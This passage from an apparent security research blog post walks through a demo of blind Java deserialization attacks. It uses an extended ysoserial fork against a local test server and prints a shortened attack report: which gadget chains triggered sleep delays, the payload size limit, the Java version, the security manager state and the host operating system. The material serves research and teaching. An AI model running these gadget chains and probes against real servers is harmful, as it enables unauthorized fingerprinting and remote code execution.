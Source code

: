 ## Demo {#demo}

0. Clone [Deserialize test server] and [extended ysoserial].
1. Start the [Deserialize test server].
2. Test whether it is listening on port 8022 - in the readme of the server you find how to compile it and test it.
3. Run the [GeneratorTest.java] test class from the [extended ysoserial]. It constructs payloads from JSON specifications and runs them against the deserialize server.
4. Run the [AttackTest.java] test class from the [extended ysoserial]. It contains the exploitation technique demonstration described above.
The attack is launched against the test server and produces the report as below.
5. Have fun.

### Report - shortened
The [Attack.java] runs an automated test against the victim to determine few interesting properties:

```
# Testing CommonsCollections - Transformer based, v3
Sleep Commons01 worked: true
Sleep Commons05 worked: true
Sleep Commons06 worked: true

# Testing javassist exploit classes
# Accepting the raw Java code as payload body.
# cc = CommonsCollections. cc2, cc4 uses v4 lib
Javassist[       cb1] worked: false
Javassist[       cc2] worked: false
Javassist[       cc3] worked: true
Javassist[       cc4] worked: false
Javassist[ hibernate] worked: false
Javassist[      weld] worked: false
Javassist[     jboss] worked: false
Javassist[      jdk7] worked: false
Javassist[      json] worked: false
Javassist[     rhino] worked: false
Javassist[      rome] worked: false
Javassist[   spring1] worked: false
Javassist[   spring2] worked: false

# Testing maximum length of the payload
# server accepts
Length limit 1k passed: true
Length limit 4k passed: true
Length limit 16k passed: true
Length limit 256k passed: true
Exception in post Req
Length limit 1M passed: false

# Major java version running the app
Java 4 version: true
Java 5 version: true
Java 6 version: true
Java 7 version: true
Java 8 version: true

# Security manager active?
Security manager == null? true

# os.name fingerprinting
OS: win: false
OS: mac: true
OS: darwin: false
```

[Part 1]: https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html
[ysoserial]: https://github.com/frohoff/ysoserial
[extended ysoserial]: https://github.com/yolosec/ysoserial
[Deserialize test server]: https://github.com/yolosec/deserialize-server
[Generator.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Generator.java
[Attack.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Attack.java
[GeneratorTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/GeneratorTest.java
[AttackTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/AttackTest.java
[Affected versions]: https://commons.apache.org/proper/commons-collections/security-reports.html#Apache_Commons_Collections_Security_Vulnerabilities
[Java-Deserialization-Cheat-Sheet]: https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
[Understanding ysoserial's CommonsCollections1 exploit]: http://gursevkalra.blogspot.cz/2016/01/ysoserial-commonscollections1-exploit.html
[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability]: https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#exploitdev